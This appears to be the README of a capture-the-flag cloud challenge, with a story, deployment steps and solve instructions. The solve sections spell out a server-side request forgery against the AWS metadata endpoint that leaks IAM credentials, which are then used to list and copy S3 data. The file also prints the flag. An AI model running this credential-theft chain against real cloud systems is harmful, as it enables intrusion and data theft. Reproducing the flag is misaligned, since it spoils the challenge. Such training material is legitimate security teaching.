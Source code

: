 # Title
The Tenney Disappearance


# Description
Detective Christina Krypto was one of the best in the NYPD Cybercrime Division, known for her relentless pursuit of digital criminals. She was investigating a massive cloud security breach linked to stolen credentials—an attack that allowed an unknown entity to siphon classified government and corporate data.

Then, she vanished without a trace.

The only lead left behind? Her personal workstation, still running a custom-built Cyber URL Checker—a tool she used to analyze suspicious links for potential security flaws. The last URL she checked seems to have triggered something before she disappeared.

Her workstation is still active at http://35.93.151.76:5000. If you can retrace her steps and uncover what she was looking at, you might find the truth—and the secret hidden in the cloud.

# Hint
Detective Krypto was investigating AWS infrastructure vulnerabilities. Reports suggest she was last seen looking at a specific metadata endpoint. If someone had access to cloud credentials but couldn't use them, where would they look to investigate further?


Fuck you liam <3. I am putting this here cause I wont bother making a solve script id rather bring at all down and up if i have to.
## Magpie CTF AWS Deployment Setup

This guide walks you through setting up the **AWS infrastructure** and **Flask-based Cyber URL Checker** for challenge.

---

### 1 Prerequisites
Before you begin, ensure you have:
- **AWS CLI** installed and configured (`aws configure`)
- **Terraform** installed (`terraform -v`)
- **An AWS account** with permissions to create EC2, S3, IAM roles
- **SSH key pair** (`id_ed25519` and `id_ed25519.pub`)

---

### 2 Generate an SSH Key Pair (If Not Already Created)
If you don’t have an SSH key, generate one:

```sh
ssh-keygen -t ed25519 -f id_ed25519 -N ""
```

Move it into your Terraform directory.

---

### 3 Set Up Terraform & Deploy Infrastructure
1. **Edit `main.tf` to include your AWS region & profile.**  
   If using a specific AWS profile, ensure `provider "aws"` has:
   ```hcl
   provider "aws" {
     region  = "us-west-2"  # Change if needed
     profile = "my-profile"
   }
   ```

2. **Initialize Terraform:**
   ```sh
   terraform init
   ```

3. **Plan the deployment:**
   ```sh
   terraform plan
   ```

4. **Apply the Terraform configuration (This creates EC2, S3, IAM Role, Security Groups, and uploads files):**
   ```sh
   terraform apply -auto-approve
   ```

---

### 4 Configure S3 Bucket Permissions
1. **Go to the AWS S3 console** → Select **`magpie2025-secret-25`**.
2. Click **Permissions** → **Object Ownership** → Set to **"Bucket owner preferred"**.
3. **Save Changes**.

---

### 5 SSH into the EC2 Instance & Run Setup
1. Get the EC2 **public IP** from Terraform’s output or the AWS console:
   ```sh
   terraform output ec2_public_ip
   ```

2. **SSH into the instance**:
   ```sh
   ssh -i id_ed25519 ubuntu@<EC2_PUBLIC_IP>
   ```

3. **Run the setup script manually**:
   ```sh
   chmod +x /home/ubuntu/startup.sh
   sudo /home/ubuntu/startup.sh
   sudo bash /home/ubuntu/startup.sh
   ```

---

### 6 Verify Flask App is Running
1. Check if the container is running:
   ```sh
   sudo docker ps
   ```

2. If running, test the app in your browser:
   ```
   http://<EC2_PUBLIC_IP>:5000
   ```

3. If not running, manually start the container:
   ```sh
   sudo docker restart cyber-url-checker
   ```

---

### 7 Exploit Testing
1. **Submit a URL like `http://169.254.169.254/latest/meta-data/iam/security-credentials/`** in the form.
2. You should see IAM role credentials returned.
3. **Use the leaked credentials** to list S3 buckets:
   ```sh
   AWS_ACCESS_KEY_ID="LEAKED_KEY" AWS_SECRET_ACCESS_KEY="LEAKED_SECRET" aws s3 ls
   ```

4. Download the flag:
   ```sh
   AWS_ACCESS_KEY_ID="LEAKED_KEY" AWS_SECRET_ACCESS_KEY="LEAKED_SECRET" aws s3 cp s3://magpie2025-secret-25/flag.txt .
   ```

---

### 8 Cleanup
Once testing is complete, destroy the infrastructure:
```sh
terraform destroy -auto-approve
```

---

### 9 Common Issues & Fixes
✅ **Terraform Hangs on EC2 Setup:**  
- SSH in and manually run `/home/ubuntu/startup.sh`

✅ **Flask App Not Running:**  
- Restart with `sudo docker restart cyber-url-checker`

✅ **Cannot List S3 Buckets (`AccessDenied` Error):**  
- Ensure `s3:GetObject` and `s3:ListBucket` permissions are correct in Terraform IAM policy.

✅ **AWS Credentials Expired:**  
- Generate new ones by re-running the exploit.


# Solve

1. Make a request to `http://169.254.169.254/latest/meta-data/iam/security-credentials/` to find the IAM role that is associated with the EC2.
2. Make a request to `http://169.254.169.254/latest/meta-data/iam/security-credentials/<IAM ROLE>` to determine the accesskeyid and secretaccesskey of the AWS IAM Role.
3. On a terminal with the AWS CLI installed, run `aws configure` and configure the Access Key, Secret Access Key, and the region. The region can be guessed either by the IP of the EC2/website (curl -O https://ip-ranges.amazonaws.com/ip-ranges.json), or they can guess. 
4. Determine what permissions the user has, either through a brute force, or by just checking some common ones. This use also has the ability to read S3 buckets.
5. Run `aws s3 ls`, which will show all S3 buckets the user has access to. 
6. Run ` aws s3 s3://magpie2025-secret/ ls` or ` aws s3 ls s3://magpie2025-secret-25/` to see all the files in the bucket.
7. Run ` aws s3 cp s3://magpie2025-secret/flag.txt .` to download the flag. 

Most of the ` magpie2025-secret` refrences are changed to the actual s3 bucket name which is ` magpie2025-secret-25` in this instant and may be subject to change

# Handouts
fuck all. LEARN CLOUD NOW

# Flag

magpieCTF{14m_15_700_345y_70_m355_up}